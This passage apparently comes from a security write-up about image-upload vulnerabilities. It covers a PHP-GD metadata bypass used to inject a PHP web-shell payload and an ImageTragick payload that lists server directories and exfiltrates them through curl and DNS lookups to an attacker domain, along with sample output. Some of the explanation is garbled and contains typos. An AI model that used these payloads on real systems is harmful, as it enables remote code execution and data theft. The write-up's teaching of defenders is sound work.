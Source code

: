 This code is from the PHP-GD library which validates if the image file contains any metadata or not and if it does, the PHP-GD creates another image and stores it as a fresh image without any metadata but just the file headers and basic info. And as the metadata is cleared, a metadata is actually saved in the **jpg** file which tells the PHP-GD library that the image has been already passed through the code. So using the same code, the attacker passes an image file and crafts the output image file which is made by the code and then crafts it such that the identical bytes of the orignal images match with the identical bytes of the generated image which at the end fools the code and payloads like ```<?system($GET['X']);?>)``` can be injected in the hex of the generated image. Hence gaining the shell.
This situation is more like
## I used the stones to destroy the stones
The vulnerability was firstly found on a website called BookFresh and the POC can be read [here](https://secgeek.net/bookfresh-vulnerability)

### Image Tragic Attack

Once again the SVG image were used and the XML data is crafted such that it includes the malicious payload. Here is an example of the payload

## Payload:
```
push graphic-content
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=%60for i in $(ls /) ; do curl"https://$i.atacker.tld/" -d @- > /dev/null; done`'
pop image-context
```
## Result:
```
NAME: home.attacker.tld, Type: A
NAME: boot.attacker.tld, Type: 28
NAME: type.attacker.tld, Type: 28
NAME: bin.attacker.tld, Type: A
...
```

## 'id' shell command returns:
```
NAME: uid=99(nobody).attacker.tld., Type: 28
NAME: groups=99(nobody).attacker.tld., Type: A
NAME: gid=99(nobody).attacker.tld., Type: A
``` 

Actually what the payload is doing is that it is giving the ```ls``` command in the ```/``` root directory and then sending the output at his subdomain and the DNS query is sent to the attacker's server, as the maximum size of the subdomain that the payload can handle is 64 bytes so the subdomain the attacker has crafted in the payload is in the hexadecimal value and all the requests that the server is sending is 64 bytes per request. 
This vulnerability was also noticed by Facebook SRT and the Proof Of Concept can be read at this [link](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html). The vulnerabilitiy is still reproducable as the older versions of ImageMagick library are yet still vulnerable to SSRF and RCE. 
